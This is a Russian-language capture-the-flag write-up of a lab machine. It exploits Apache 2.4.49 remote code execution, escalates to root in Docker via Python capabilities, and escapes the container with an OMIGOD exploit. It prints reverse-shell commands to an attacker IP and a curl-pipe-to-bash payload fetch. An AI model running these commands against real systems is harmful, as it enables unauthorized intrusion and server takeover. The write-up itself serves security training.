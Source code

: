 # OhMyWebServer WriteUp (Medium)✅

Перейдя по ip адресу мы попадаем на страницу какого-то сайта, связаного с консалтинговыми услугами

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Просканировав порты, мы модем узнать что на 80 порте находится **Apache-HTTP сервер**, при чем версия Apache - **2.4.49**

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Зайдя на сайт exploit-db.com и прогуглив данную версию ПО Apache, мы можем найти эксплойт, с помощью которого сможем удаленно выполнять код

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Скачиваем данный экспойт и тестируем его работу

<figure><img src="../.gitbook/assets/image (26) (1).png" alt=""><figcaption><p>Перед использованием скрипта я создал текстовый файл <strong>ip.txt</strong>, куда вписал ip адрес машины 📌</p></figcaption></figure>

Если мы можем с помощью данного эксплойта выполнять какие-либо команды, то, следовательно, вместо команды ls можно вписать [**bash\_reverse\_shell**](https://www.revshells.com/) и получить оболочку нашей машины

Подключив слушатель заранее, выполняем команду

`./50383.sh ip.txt /bin/sh 'bash -c "bash -i >& /dev/tcp/10.17.5.130/5555 0>&1"'`

и получаем шелл от лица пользователя **daemon**

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4) (4).png" alt=""><figcaption><p>Судя по странному набору букв и цифр после имени пользователя, мы находимся в докере 📌</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>linpeas это подтвердил 📌</p></figcaption></figure>

Первый флаг, вероятнее всего, находится в папке root, но мы не имеем прав, чтобы в неё перейти, поэтому придётся выполнять эскалацию привилегий и получать **root**'a

C помощью linpeas'a мы узнаём, что можем проэксплуатировать [**python capabilities**](https://gtfobins.github.io/gtfobins/python/), с помощью команды `python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'` получаем **root**'a в докере&#x20;

<figure><img src="../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Остаётся лишь вывести содержимое файла user.txt и получить первый флаг🚩

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Ничего, кроме внутреннего ip-адреса linpeas не нашёл, поэтому загружаем сканер nmap и сканируем порты (сканировать мы будем ip 172.12.0.1, т.к. 0.2 - это наш адрес, а предыдущий - хоста)

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Видим открытый 5986-й порт, который относится к **Windows Remote Management**

Данный сервис имеет уязвимость, которую мы можем проэксплуатировать с помощью **omigod**-экспойта

Загружаем его в папку /tmp

Перед эксплуатацией уязвимости создадим на собственной машине в папке /tmp файл shell.sh, где будет храниться bash\_rev\_shell(`bash -i >& dev/tcp/self_ip/6666 0>&1`)

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

В той же папке /tmp подключаем **python3**-сервер (port - **3333**)

Запускаем слушатель `nc -lvnp`` `**`6666`** на своей машине

На атакуемой машине в папке /tmp выполняем команду

&#x20;`python3 name_of_exploit -t 172.17.0.1 -c "curl self_ip:3333/`[`shell.sh`](https://vk.com/away.php?to=http%3A%2F%2Fshell.sh\&cc\_key=) `| bash"`

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Как итог, мы выбрались из докера и получили шелл основного сервера атакуемой машины, остаётся лишь вывести флаг **root.txt**

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
